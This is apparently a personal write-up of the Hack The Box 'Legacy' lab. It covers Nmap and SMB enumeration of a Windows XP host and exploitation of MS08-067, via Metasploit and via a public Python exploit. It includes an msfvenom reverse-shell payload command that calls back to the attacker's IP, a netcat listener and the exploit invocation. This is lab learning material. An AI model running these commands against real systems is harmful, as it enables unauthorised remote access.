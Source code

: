 ## Enumeration
- Nmap scan done:
```Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-27 06:00 EST
Nmap scan report for 10.10.10.4
Host is up (0.042s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2024-02-01T14:58:26+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:52:1b (VMware)
|_clock-skew: mean: 5d00h57m39s, deviation: 1h24m50s, median: 4d23h57m39s
```
This can give shell access and is important but not gonna use this now
	`message_signing: disabled (dangerous, but default)`
## Trying to access SMB
- `smbclient -L \\10.10.10.4` leads to asking for password
- We can use *enum4linux* or metasploit for smb version detections
- Used nmap script to find `nmap -p 129,445 --script smb-protocols 10.10.10.4` : ![](attachment/d11750416fe83c1a69435be148a9c900.png)
- Found os using `nmap -p 139,445 --script-args=unsafe=1 --script /usr/share/nmap/scripts/smb-os-discovery 10.10.10.4 ` 
### Using Metasploit
- can use `exploit/windows/smb/ms08_067_netapi` and set lhost to tun0 and other options are self explanatory![](attachment/0c2da01f0767a98f96c6de6edf1491a9.png)
### Without metasploit
- https://github.com/andyacer/ms08_067/tree/master used the ms08_067 exploit
- Generated shellcode with `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.4 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86 --platform windows` and pasted in the python file.
- listening on port 443:
	`nc -lnvp 443`
- ran the exploit:
	`python2 ms08_067_2018.py 10.10.10.4 7 445`
	![](attachment/811b8d2fb0ef5fd2f89dbcc7fe4909c7.png)
- Got the access:![](attachment/bf7a0ff85ad3190fef5cfd678e88aede.png)